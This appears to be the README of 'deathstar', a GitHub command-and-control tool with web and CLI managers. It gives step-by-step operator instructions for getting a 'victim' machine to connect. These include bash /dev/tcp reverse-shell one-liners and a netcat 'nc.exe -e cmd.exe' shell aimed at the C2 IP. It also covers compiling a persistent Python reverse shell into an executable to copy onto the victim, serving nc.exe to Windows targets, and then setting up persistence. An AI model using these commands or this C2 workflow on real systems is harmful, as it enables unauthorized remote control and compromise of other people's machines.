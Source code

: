 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/e01272a6-1e5a-416c-8b56-45460317a349)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - BASH
          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and select an OS from the drop down, then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - BASH
          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.


